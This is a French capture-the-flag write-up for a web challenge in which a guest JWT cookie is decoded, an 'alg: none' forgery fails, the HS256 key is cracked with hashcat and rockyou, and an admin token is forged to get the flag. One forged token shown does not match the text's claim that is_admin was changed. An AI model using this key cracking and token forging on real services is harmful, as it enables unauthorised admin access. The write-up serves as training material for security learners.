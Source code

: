# Web - KoroDesign
![énoncé](images/korodesign.png)  
On se rend à l'URL indiqué.  
![index](images/korodesign_index.jpg)  
On check le code source... rien d'intéressant.  
On regarde s'il n'y a pas de "robots.txt" ou "sitemap.xml"... Ni l'un ni l'autre.  
On clique sur "A propos".  
```
Hello, Gros merci a Koro pour son design et merci a vous pour la participation :)
Vu que vous êtes sympa on vous a créé un compte guest/guest sur l'appli ... ;)
Peace ! Unknown101
```
On apprend donc qu'un compte guest/guest existe.  
On retourne à l'accueil et on va sur "login".  
Rien dans le code source. On teste guest/guest. Et on est redirigé vers "/flag.php".  
![flag.php](images/korodesign_flag_php.jpg)  
Toujours rien dans le code source.  
On regarde les cookies : `F12 > Stockage`  
Il y a un cookie nommé `custom` et qui a pour valeur : `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9.th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY`  
On reconnait içi un JWT (JSON Web Token) par sa forme : [data].[data].[data]  
On se renseigne sur le JWT. La page [Wikipédia anglaise](https://en.wikipedia.org/wiki/JSON_Web_Token) nous explique ce qu'est ce token et de quoi il est composé.  
![structure JWT](images/korodesign_wiki_jwt.png)  
On récupère notre token puis on le décode.
```
$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}
$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9" | base64 -d
{"username":"guest","is_admin":"false"}
$ $ echo "th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY" | base64 -d
{n��cI�base64: entrée incorrecte
```
La dernière partie, illisible, s'agit de la signature.  
On apprend que notre token est signé avec l'algorithme HS256 et contient un champs qui pourrait nous intéresser : "is_admin":"false"  
On se renseigne sur les différentes attaques possibles avec un JWT : [](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)  
On peut donc : 
* mettre la valeur du champs "alg" à "none"
* changer l'algorithme de RS256 à HS256 (içi, nous sommes déjà en HS256, l'attaque n'est donc pas réalisable)
* cracker la clé utilisée pour générer la signature
## Mettre la valeur du champs "alg" à "none"
On essaie la 1ère technique (on pense bien sûr à changer la valeur de "is_admin"): 
```
$ echo '{"typ":"JWT","alg":"none"}' | base64 > crafted
$ echo "." >> crafted
$ echo '{"username":"guest","is_admin":"true"}' | base64 >> crafted
$ echo "." >> crafted
```
On enlève les retours à la ligne avec un éditeur de texte ainsi que les "=" afin d'avoir un token correct car le JWT doit être base64url encodé.  
On a donc : `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9Cg.`  
On retourne sur notre navigateur. On change la valeur de "custom" par le token que l'on vient de créer.  
On recharge la page... et on se prend un "500 Internal Server Error". L'attaque n'a pas marchée.
## Cracker la clé utilisée pour générer la signature
On a vu tout à l'heure que l'on pouvait également cracker la clé utilisée pour générer la signature afin de pouvoir signer nos tokens de la même manière que le serveur le fait !  
On utilise alors hashcat :
```
$ hashcat -a0 -m 16500 jwt /usr/share/worldlists/rockyou.txt
[...] peu de temps après, on a la clé
!passw0rd
```
La clé utilisée pour signer les tokens est donc "!passw0rd".  
A présent, on peut se rendre sur [CyberChef](https://gchq.github.io/CyberChef/) afin de nous simplifier la tâche. 
On ajoute JWT Sign, puis on change l'algorithme pour "HS256", on remplit le champs Private/Secret Key par "!passw0rd" et en input on met le payload de notre JWT soit `{"username":"guest","is_admin":"true"}`.  
On copie le token que CyberChef nous a gentillement construit : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJ0cnVlIiwiaWF0IjoxNTg0MjM2OTI1fQ.2l-phLQqXNuGIpIxVN4vbY9NNMs8csBE1LN4uD1s630`  
On retourne sur la page de notre challenge et on modifie le cookie "custom" par notre nouveau token. On recharge la page.  
![flag](images/korodesign_flag.jpg)  
  
**FLAG : BC{Thanks_K0r0_for_css}**
